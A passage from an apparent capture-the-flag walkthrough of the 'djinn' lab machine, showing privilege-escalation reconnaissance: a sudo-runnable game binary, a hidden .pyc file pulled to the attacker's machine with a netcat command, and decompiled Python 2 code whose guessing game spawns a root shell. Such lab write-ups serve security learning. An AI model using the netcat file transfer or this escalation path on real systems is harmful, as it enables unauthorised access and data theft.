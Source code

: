 Sam can run /root/lago.
```bash
sam@djinn:/home/sam$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:4
work your ass off!!
```

Great, another game. Looking in Sam's home directory, there is a hidden .pyc file.
```bash
sam@djinn:/home/sam$ ls -la
total 36
drwxr-x--- 4 sam  sam  4096 Nov 14  2019 .
drwxr-xr-x 4 root root 4096 Nov 14  2019 ..
-rw------- 1 root root  417 Nov 14  2019 .bash_history
-rw-r--r-- 1 root root  220 Oct 20  2019 .bash_logout
-rw-r--r-- 1 sam  sam  3771 Oct 20  2019 .bashrc
drwx------ 2 sam  sam  4096 Nov 11  2019 .cache
drwx------ 3 sam  sam  4096 Oct 20  2019 .gnupg
-rw-r--r-- 1 sam  sam   807 Oct 20  2019 .profile
-rw-r--r-- 1 sam  sam  1749 Nov  7  2019 .pyc
-rw-r--r-- 1 sam  sam     0 Nov  7  2019 .sudo_as_admin_successful
sam@djinn:/home/sam$ file .pyc
.pyc: python 2.7 byte-compiled
```
Transfer it to the local machine with netcat:
```bash
sam@djinn:/home/sam$ nc 192.168.34.138 9999 < .pyc
```
Then decompile it.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ python2-docker "python -m pip install uncompyle6; uncompyle6 app.pyc"                                                                                                                                               1 ⨯
...                                                                                                                  
# uncompyle6 version 3.7.4
# Python bytecode 2.7 (62211)
# Decompiled from: Python 2.7.18 (default, Apr 20 2020, 19:51:05) 
# [GCC 9.2.0]
# Embedded file name: /home/mzfr/scripts/exp.py
# Compiled at: 2019-11-07 13:05:18
from getpass import getuser
from os import system
from random import randint

def naughtyboi():
    print 'Working on it!! '


def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'


```